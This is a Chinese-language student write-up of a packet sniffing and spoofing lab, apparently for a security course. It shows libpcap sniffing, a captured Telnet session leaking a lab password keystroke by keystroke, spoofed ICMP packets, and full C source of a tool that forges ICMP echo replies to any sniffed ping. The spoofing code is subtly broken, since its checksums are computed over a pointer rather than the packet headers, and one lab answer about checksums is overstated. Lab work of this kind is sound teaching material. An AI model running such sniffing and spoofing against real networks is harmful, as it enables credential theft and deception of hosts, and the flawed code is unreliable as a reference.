








# Packet Sniffing and Spoofing Lab

## 实验概述

### 实验目的

* 了解嗅探和伪装包的原理

* 使用`libpcap`或者`Scapy`嗅探包

* 使用`raw socket`或者`Scapy`伪装包

* 修改包

### 实验环境

WSL2 kali GUN/Linux

kali GUN/Linux on VMware

### 任务集

Task Set 2: 使用C语言完成实验

## 任务集2：编写程序完成嗅探和伪装包

### 2.1：编写嗅探程序

见`pacp_sniffing.c`

#### 2.1A：理解何为嗅探包

嗅探包的IP头中的源地址和目标地址



> 图中给出了包的MAC地址，IP地址，和TCP端口

##### Question
1.  用你的语言总结用`libpcap`抓包的基本流程

    1.  查找可用的设备`pcap_findalldev`，并选择设备

    2.  获取设备的网络信息`pcap_lookupnet`（为了使用filter的预先准备）

    3.  开启设备的嗅探模式`pcap_open_live`

    4.  编译并安装filter`pcap_compile`，`pcap_setfilter`

    5.  开始抓包`pcap_loop`/`pacp_next`

    6.  结束抓包`pcap_close`

2.  为什么你需要root权限来允许程序，如果不给予权限，程序在哪里失败的？

    1.  因为网络协议栈的处理，在应用层以下都由内核处理，需要开启权限访问内核。

    2.  在第3步会失败（参考第1个问题）

3.  你能演示关闭或者开启混杂模式的区别吗？请描述你是怎么演示的。

    可以。

    提前使用了task 2.2的程序，虚拟机A发送数据包，而另一台虚拟机使用`sniffing.out`接受数据包

    **开启混杂模式**

    

    > 不属于本机发出/受到的数据包也嗅探到了（虚拟机工作在子网10.0中）

    **关闭混杂模式**

    

    > 没有受到不属于本机发出/受到的数据包

    

    > 可以看到，即使伪装成从虚拟机B发出的数据包，只要不是它本机发送的，就不会接受

#### 2.1B 使用filter

> 程序`snifffing.out`接受命令行参数来取代默认的filter参数（空）

1.  捕捉特定两端间的ICMP包

    

    > 捕捉从本机发往remote的`echo request`包

2.  捕捉目的端口在10-100之间的TCP包

    

#### 2.1C 密码嗅探

**环境**：虚拟机A使用Telnet登陆虚拟机B，密码为`kali`，虚拟机B同时开启嗅探

> 数据片段来自`evidence_for_expr/task2-1C telnet_sniffing.txt`

```
Packet: 44
Capture: 76 B; Packet: 76 B
08:00:27:6c:eb:4b -> 08:00:27:89:8b:17 [size: 14 B; protocol: IPv4]
10.0.2.5 -> 10.0.2.4 [size: 20 B; protocol: TCP]
23 -> 43924 [size: 32 B; SEQ: 769144451; ACK 448469412; FLAG: ...PA...]
Payload 10B
P a s s w o r d :   


Packet: 45
Capture: 66 B; Packet: 66 B
08:00:27:89:8b:17 -> 08:00:27:6c:eb:4b [size: 14 B; protocol: IPv4]
10.0.2.4 -> 10.0.2.5 [size: 20 B; protocol: TCP]
43924 -> 23 [size: 32 B; SEQ: 448469412; ACK 769144461; FLAG: ....A...]


Packet: 46
Capture: 67 B; Packet: 67 B
08:00:27:89:8b:17 -> 08:00:27:6c:eb:4b [size: 14 B; protocol: IPv4]
10.0.2.4 -> 10.0.2.5 [size: 20 B; protocol: TCP]
43924 -> 23 [size: 32 B; SEQ: 448469412; ACK 769144461; FLAG: ...PA...]
Payload 1B
k 


Packet: 47
Capture: 66 B; Packet: 66 B
08:00:27:6c:eb:4b -> 08:00:27:89:8b:17 [size: 14 B; protocol: IPv4]
10.0.2.5 -> 10.0.2.4 [size: 20 B; protocol: TCP]
23 -> 43924 [size: 32 B; SEQ: 769144461; ACK 448469413; FLAG: ....A...]


Packet: 48
Capture: 67 B; Packet: 67 B
08:00:27:89:8b:17 -> 08:00:27:6c:eb:4b [size: 14 B; protocol: IPv4]
10.0.2.4 -> 10.0.2.5 [size: 20 B; protocol: TCP]
43924 -> 23 [size: 32 B; SEQ: 448469413; ACK 769144461; FLAG: ...PA...]
Payload 1B
a 


Packet: 49
Capture: 66 B; Packet: 66 B
08:00:27:6c:eb:4b -> 08:00:27:89:8b:17 [size: 14 B; protocol: IPv4]
10.0.2.5 -> 10.0.2.4 [size: 20 B; protocol: TCP]
23 -> 43924 [size: 32 B; SEQ: 769144461; ACK 448469414; FLAG: ....A...]


Packet: 50
Capture: 67 B; Packet: 67 B
08:00:27:89:8b:17 -> 08:00:27:6c:eb:4b [size: 14 B; protocol: IPv4]
10.0.2.4 -> 10.0.2.5 [size: 20 B; protocol: TCP]
43924 -> 23 [size: 32 B; SEQ: 448469414; ACK 769144461; FLAG: ...PA...]
Payload 1B
l 


Packet: 51
Capture: 66 B; Packet: 66 B
08:00:27:6c:eb:4b -> 08:00:27:89:8b:17 [size: 14 B; protocol: IPv4]
10.0.2.5 -> 10.0.2.4 [size: 20 B; protocol: TCP]
23 -> 43924 [size: 32 B; SEQ: 769144461; ACK 448469415; FLAG: ....A...]


Packet: 52
Capture: 67 B; Packet: 67 B
08:00:27:89:8b:17 -> 08:00:27:6c:eb:4b [size: 14 B; protocol: IPv4]
10.0.2.4 -> 10.0.2.5 [size: 20 B; protocol: TCP]
43924 -> 23 [size: 32 B; SEQ: 448469415; ACK 769144461; FLAG: ...PA...]
Payload 1B
i 
```


### 2.2：伪装包

见`socket_spoofing.c`

#### 2.2A 编写包伪装程序

使用嗅探程序证明你发送了伪装的包


> 左边的嗅探程序使用的是`sniffing.out`，右边为包伪装程序

#### 2.2B 伪装ICMP `echo request`包

使用另一个机器的地址发送ICMP `echo request`到一个存活的主机上，要求主机回送`echo reply`包



> 左边虚拟机A使用虚拟机B的地址伪装ICMP `echo request`包，发送到host上，右边虚拟机B同时开启嗅探，注意到，虚拟机B的`ifconfig`的地址和虚拟机A的发送地址吻合，且host也向虚拟机B会送了`echo reply`包

##### Question
1.  你可以把IP头的length域设为任意的大小吗？
    
    可以，即使length小于IP头的最小大小20B也可以。但是`sendto`设置发送长度过大还可以，但如果小于20B，则直接报错。
    
    通过在另一台虚拟机的嗅探`sniffing.out`/`tcpdump`，发现真正的长度由`sendto`控制
    
2.  使用`raw socket`发送包，需要计算校验和吗？
    
    不需要
    
3.  为什么你需要root权限去执行程序，如果没有权限，在哪一步会报错？
    
    1.  因为网络协议栈的处理，在应用层以下都由内核处理，需要开启权限访问内核。通常应用只有装载应用层数据包的权限
    
    2.  在打开socket时失败
    
### 2.3 嗅探然后伪装
见`ping_cheater.c`

虚拟机A和虚拟机B（下称A和B）在同一子网，A `ping`一个IP X，你的欺骗程序工作在B上，每当嗅探到一个ICMP `echo request`包，无论目的地址，都回发一个`echo reply`。这样无论X所代表的的主机是否存活，A上的`ping`都会受到恢复，并认为X存活，你要做的就是欺骗`ping`



> 左边A在`ping`，右边B在spoofing

**ping_cheater.c**
TODO：增加注释

```c
#include "data_format.h"
#include "pdu_struct.h"
#include <arpa/inet.h>
#include <net/ethernet.h>
#include <netinet/in.h>
#include <pcap.h>
#include <pcap/pcap.h>
#include <netinet/ether.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <pcap/socket.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <ctype.h>
#include <sys/socket.h>
#include <sys/types.h>

#define MAX_BYTE_TO_CAP 2048
#define COL_PER_ROW 32
#define FAILURE -1

u_short in_cksum(u_short *addr, int len) {
    int nleft = len;
    int sum = 0;
    u_short *w = addr;
    u_short answer = 0;
    while (nleft > 1) {
        sum += *w++;
        nleft -= 2;
    }
    if (nleft == 1) {
        *(u_char *) (&answer) = *(u_char *) w;
        sum += answer;
    }
    sum = (sum >> 16) + (sum & 0xFFFF);
    sum += (sum >> 16);
    answer = ~sum;
    return (answer);
}

/* Callback function to process packet captured */
void processPacket(u_char *arg, const struct pcap_pkthdr* pkthdr, const u_char *packet) {
    int *counter = (int *)arg;

    printf("Packet Count: %d\n", ++(*counter));
    printf("Received Packet Size: %d\n", pkthdr->caplen);

    struct ether_header *ether = (struct ether_header *)packet;
    if (ntohs(ether->ether_type) != ETHER_TYPE_IP4) return;

    struct ip *ip = (struct ip *)(packet + 14);

    if (ip->ip_p != IPPROTO_ICMP) return;
    
    struct icmp *icmp = (struct icmp *)(packet + 14 + ip->ip_hl * 4);

    if (icmp->icmp_type != ICMP_ECHO) return;

    // exchange ip addr
    in_addr_t tmp_net = ip->ip_src.s_addr;
    ip->ip_src.s_addr = ip->ip_dst.s_addr;
    ip->ip_dst.s_addr = tmp_net;
    // calculate check sum
    ip->ip_sum = 0x0;
    ip->ip_sum = in_cksum((u_short *)&ip, sizeof(ip));
    // change type to reply
    icmp->icmp_type = ICMP_ECHOREPLY;
    // calculate check sum
    icmp->icmp_cksum = 0x0;
    icmp->icmp_cksum = in_cksum((u_short *)&icmp, 8);
    
    int sd;
    const int on = 1;
    struct sockaddr_in sin;
    memset(&sin, 0, sizeof(sin));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = ip->ip_dst.s_addr;

    if ((sd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }
    if ((setsockopt(sd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on))) < 0) {
        perror("setsockopt");
        exit(EXIT_FAILURE);
    }
    if ((sendto(sd, packet + 14, ntohs(ip->ip_len), 0, (struct sockaddr *)&sin, sizeof(struct sockaddr))) < 0) {
        perror("socket");
        exit(EXIT_FAILURE);
    }
    printf("Spoofing ICMP REPLY %s -> %s", strdup(inet_ntoa(ip->ip_src)), strdup(inet_ntoa(ip->ip_src)));
}


int main(int argc, char *argv[]) {
    int i = 0, count = 0;
    pcap_t *handle = NULL;
    char errbuf[PCAP_ERRBUF_SIZE];
    const char *device = NULL;

    // 1. find devices
    memset(errbuf, 0, PCAP_ERRBUF_SIZE);
    pcap_if_t *devices;
    pcap_findalldevs(&devices, errbuf);
    device = devices->name;

    // 2. detect net and mask
    bpf_u_int32 net, mask;
    pcap_lookupnet(device, &net, &mask, errbuf); 

    // 3. open device
    handle = pcap_open_live(device, MAX_BYTE_TO_CAP, 1, 1000, errbuf);
    // 4. complie filter
    struct bpf_program fp;
    pcap_compile(handle, &fp, "icmp", 0, net);

    // 5. install filter
    pcap_setfilter(handle, &fp);

    // 6. capture file
    pcap_loop(handle, 100, processPacket, (u_char *)&count);
    printf("%d packet(s) captured\n", count);
}
```
